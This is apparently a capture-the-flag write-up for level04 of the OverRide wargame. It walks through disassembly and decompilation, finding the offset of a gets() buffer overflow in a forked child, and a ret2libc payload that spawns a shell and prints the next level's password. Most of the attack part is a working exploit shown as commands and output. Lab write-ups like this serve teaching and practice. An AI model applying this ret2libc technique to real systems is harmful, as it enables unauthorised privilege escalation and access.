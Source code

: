 # Level 04

## GDB Utils

The program only call a main :

```
(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
   0x080486db <+19>:    mov    %eax,0xac(%esp)
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx
   0x080486e6 <+30>:    mov    $0x0,%eax
   0x080486eb <+35>:    mov    $0x20,%edx
   0x080486f0 <+40>:    mov    %ebx,%edi
   0x080486f2 <+42>:    mov    %edx,%ecx
   0x080486f4 <+44>:    rep stos %eax,%es:(%edi)
   0x080486f6 <+46>:    movl   $0x0,0xa8(%esp)
   0x08048701 <+57>:    movl   $0x0,0x1c(%esp)
   0x08048709 <+65>:    cmpl   $0x0,0xac(%esp)
   0x08048711 <+73>:    jne    0x8048769 <main+161>
   0x08048713 <+75>:    movl   $0x1,0x4(%esp)
   0x0804871b <+83>:    movl   $0x1,(%esp)
   0x08048722 <+90>:    call   0x8048540 <prctl@plt>
   0x08048727 <+95>:    movl   $0x0,0xc(%esp)
   0x0804872f <+103>:   movl   $0x0,0x8(%esp)
   0x08048737 <+111>:   movl   $0x0,0x4(%esp)
   0x0804873f <+119>:   movl   $0x0,(%esp)
   0x08048746 <+126>:   call   0x8048570 <ptrace@plt>
   0x0804874b <+131>:   movl   $0x8048903,(%esp)
   0x08048752 <+138>:   call   0x8048500 <puts@plt>
   0x08048757 <+143>:   lea    0x20(%esp),%eax
   0x0804875b <+147>:   mov    %eax,(%esp)
   0x0804875e <+150>:   call   0x80484b0 <gets@plt>
   0x08048763 <+155>:   jmp    0x804881a <main+338>
   0x08048768 <+160>:   nop
   0x08048769 <+161>:   lea    0x1c(%esp),%eax
   0x0804876d <+165>:   mov    %eax,(%esp)
   0x08048770 <+168>:   call   0x80484f0 <wait@plt>
   0x08048775 <+173>:   mov    0x1c(%esp),%eax
   0x08048779 <+177>:   mov    %eax,0xa0(%esp)
   0x08048780 <+184>:   mov    0xa0(%esp),%eax
   0x08048787 <+191>:   and    $0x7f,%eax
   0x0804878a <+194>:   test   %eax,%eax
   0x0804878c <+196>:   je     0x80487ac <main+228>
   0x0804878e <+198>:   mov    0x1c(%esp),%eax
   0x08048792 <+202>:   mov    %eax,0xa4(%esp)
   0x08048799 <+209>:   mov    0xa4(%esp),%eax
   0x080487a0 <+216>:   and    $0x7f,%eax
   0x080487a3 <+219>:   add    $0x1,%eax
   0x080487a6 <+222>:   sar    %al
   0x080487a8 <+224>:   test   %al,%al
   0x080487aa <+226>:   jle    0x80487ba <main+242>
   0x080487ac <+228>:   movl   $0x804891d,(%esp)
   0x080487b3 <+235>:   call   0x8048500 <puts@plt>
   0x080487b8 <+240>:   jmp    0x804881a <main+338>
   0x080487ba <+242>:   movl   $0x0,0xc(%esp)
   0x080487c2 <+250>:   movl   $0x2c,0x8(%esp)
   0x080487ca <+258>:   mov    0xac(%esp),%eax
   0x080487d1 <+265>:   mov    %eax,0x4(%esp)
   0x080487d5 <+269>:   movl   $0x3,(%esp)
   0x080487dc <+276>:   call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:   mov    %eax,0xa8(%esp)
   0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp)
   0x080487f0 <+296>:   jne    0x8048768 <main+160>
   0x080487f6 <+302>:   movl   $0x8048931,(%esp)
   0x080487fd <+309>:   call   0x8048500 <puts@plt>
   0x08048802 <+314>:   movl   $0x9,0x4(%esp)
   0x0804880a <+322>:   mov    0xac(%esp),%eax
   0x08048811 <+329>:   mov    %eax,(%esp)
   0x08048814 <+332>:   call   0x8048520 <kill@plt>
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret
```

Lets see what IDA tells :


```c
#include <stdint.h>

int32_t main(int32_t argc, char **argv, char **envp)
{
    pid_t pid = fork();
    void var_a0;
    void *edi = &var_a0;

    for (int32_t ecx = 0x20; ecx != 0; ecx = (ecx - 1))
    {
        *edi = 0;
        edi = (edi + 4);
    }

    int32_t var_a4 = 0;
    if (pid == 0)
    {
        prctl(PR_SET_DUMPABLE, PR_DUMPABLE);
        ptrace(PTRACE_TRACEME, 0, 0, 0);
        puts("Give me some shellcode, k");
        gets(&var_a0);
    }

    else
    {
        while (true)
        {
            wait(&var_a4);
            if (((var_a4 & 0x7f) != 0 && (((var_a4 & 0x7f) + 1) >> 1) <= 0))
            {
                if (ptrace(PTRACE_PEEKUSER, pid, 0x2c, 0) == 0xb)
                {
                    puts("no exec() for you");
                    kill(pid, 9);
                    break;
                }
                continue;
            }
            puts("child is exiting...");
            break;
        }
    }
    return 0;
}
```

This one is really tricky, there is a very easy to spot vulnerability, since there is a gets() function call, we have a buffer to overflow.

So we can insert shellcode or do other exploit.

But the overflow is happening a child, and the parents is using wait() in order to wait for the child.


Lets test the binary

```sh
level04@OverRide:~$ ./level04
Give me some shellcode, k
hey
child is exiting...
level04@OverRide:~$ ./level04
Give me some shellcode, k
dddddddddddddddddddddddddddddddddddddddddddddddddddd
child is exiting...
level04@OverRide:~$
```

So we did undurstood good, the child is awaiting in the gets() call, and the parent is awaiting the child in the wait() call, and when we give our input the programs end.

But when we cause a segfault to the child, this happen :

```sh
level04@OverRide:~$ python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'" | ./level04
Give me some shellcode, k
ew
ewq
eqw

qwe
```

Here i tried to overflow the buffer, but nothing happen, the only way to quit the program is so to trigger a SIGQUIT or a SIGINT.

We think that its probably the fact that the child segfaulted, and the parent is still waiting.

So in order to find our EIP and other stuff to execute a shell to that binary, we are going to need to activate this option in GDB.

```
set follow-fork-mode child
```

This way we can see what's happening to the child.

```sh
(gdb) set follow-fork-mode child
(gdb) run < /tmp/offset
Starting program: /home/users/level04/level04 < /tmp/offset
[New process 2141]
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2141]
0x41326641 in ?? ()
(gdb)
```

Now this is clear, and by using an offset tool we can confirm that the offset to the EIP is 156 byte.

Lets try to make a ret2libc exploit on it.

Lets gather the address we need :

```sh
(gdb) br main
Breakpoint 1 at 0x80486cd
(gdb) run
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc map
process 2145
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb)
```

And execute it :

```sh
level04@OverRide:~$ (python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'") | ./level04
Give me some shellcode, k
ls
id
^C
level04@OverRide:~$ (python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'"; cat) | ./level04
Give me some shellcode, k
ls
ls: cannot open directory .: Permission denied
id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

And it worked !